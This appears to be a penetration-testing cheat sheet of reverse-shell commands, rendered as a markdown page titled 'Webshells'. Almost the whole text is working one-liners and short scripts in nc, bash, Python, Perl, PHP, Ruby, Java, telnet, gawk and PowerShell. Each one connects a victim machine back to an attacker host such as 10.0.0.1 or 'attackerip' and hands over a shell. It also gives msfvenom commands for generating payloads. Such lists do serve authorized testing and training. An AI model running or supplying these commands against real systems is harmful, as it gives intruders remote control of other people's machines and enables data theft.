 # Webshells

# Listening...

# nc
    nc -e /bin/sh 10.0.0.1 1234

# old nc
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

# nc variant
    nc -c /bin/sh attackerip 4444
    /bin/sh | nc attackerip 4444
    rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p

# nc windows 
    nc.exe -nlvp 443 -e cmd.exe

# Bash
    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

    ````
    $ exec 5<>/dev/tcp/evil.com/8080
    $ cat <&5 | while read line; do $line 2>&5 >&5; done
    ````

    0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196


# Python
     os.system('nc 192.168.168.168 443 -e /bin/sh')

     python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Perl
    perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

    perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

# Perl windows
    perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'


# php
    This code assumes that the TCP connection uses file descriptor 3.  If it doesn’t work, try 4, 5, 6…
    php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

    [exploit/php_reverse_shell/php-reverse-shell.php](exploit/php_reverse_shell/php-reverse-shell.php)

# Ruby
    ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

    ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

# Ruby windows
    ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'



# Kali webshell
    /usr/share/webshells/php/php-reverse-shell.php
    /usr/share/webshells/cfm/cfexec.cfm
    /usr/share/webshells/perl/perl-reverse-shell.pl

# ASP reverse shell
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.168.168 LPORT=443 -f asp -o shell.asp - also works for exporting .aspx

# Windows reverse shell
    echo $secpasswd = ConvertTo-SecureString "password" -AsPlainText -Force > wget-runas.ps1
    echo $mycreds = New-Object System.Management.Automation.PSCredential ("username", $secpasswd) >> wget-runas.ps1
    echo $computer = "hostname" >> wget-runas.ps1
    echo [System.Diagnostics.Process]::Start("C:\tmp\nc.exe","192.168.168.168 443 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer) >> wget-runas.ps1
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget-runas.ps1


# Java

    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()

# Xterm
    One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

    xterm -display 10.0.0.1:1
    or $ DISPLAY=attackerip:0 xterm

    To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

    Xnest :1

    You’ll need to authorise the target to connect to you (command also run on your host):

    xhost +targetip

    xterm -display 127.0.0.1:1  # Run this OUTSIDE the Xnest
    

# Telnet

    rm -f /tmp/p; mknod /tmp/p p && telnet attackerip 4444 0/tmp/p

    telnet attackerip 4444 | /bin/bash | telnet attackerip 4445   # Remember to listen on your machine also on port 4445/tcp

# gawk
````
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
````
# PowerShell - Nishang Invoke-PowerShellTcp.ps1
Nishang Powershell - Invoke-PowerShellTcp.ps1
- https://github.com/samratashok/nishang
- https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

# Generate reverse shell
msfvenom -p cmd/unix/reverse_perl LHOST=10.10.14.30 LPORT=4444 R
=> generate perl nc

msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.30 LPORT=4444 R
=> nc in shell

# More to read
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

